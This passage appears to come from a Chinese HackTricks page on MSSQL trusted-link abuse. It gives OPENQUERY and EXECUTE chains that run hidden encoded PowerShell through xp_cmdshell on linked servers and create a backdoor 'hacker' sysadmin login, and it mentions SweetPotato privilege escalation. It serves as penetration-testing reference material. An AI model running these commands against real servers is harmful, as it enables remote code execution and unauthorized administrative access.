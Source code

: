 #### 在可信链接中执行查询

通过链接执行查询（示例：在新的可访问实例中查找更多链接）：
```sql
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
```
{% hint style="warning" %}
检查双引号和单引号的使用，正确使用它们非常重要。
{% endhint %}

![](<../../.gitbook/assets/image (643).png>)

您可以手动无限期地继续这些受信任链接链。
```sql
# First level RCE
SELECT * FROM OPENQUERY("<computer>", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')

# Second level RCE
SELECT * FROM OPENQUERY("<computer1>", 'select * from openquery("<computer2>", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')
```
如果您无法通过 `openquery()` 执行像 `exec xp_cmdshell` 这样的操作，请尝试使用 `EXECUTE` 方法。

### 手动 - EXECUTE

您还可以使用 `EXECUTE` 滥用受信任的链接：
```bash
#Create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```
## 本地权限提升

**MSSQL 本地用户** 通常具有一种特殊类型的权限，称为 **`SeImpersonatePrivilege`**。这允许该账户在身份验证后“模拟客户端”。

许多作者提出的一种策略是强制 SYSTEM 服务向攻击者创建的恶意或中间人服务进行身份验证。这个恶意服务能够在 SYSTEM 服务尝试进行身份验证时模拟该服务。

[SweetPotato](https://github.com/CCob/SweetPotato) 收集了这些可以通过 Beacon 的 `execute-assembly` 命令执行的各种技术。

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>支持 HackTricks</summary></details>
{% endhint %}
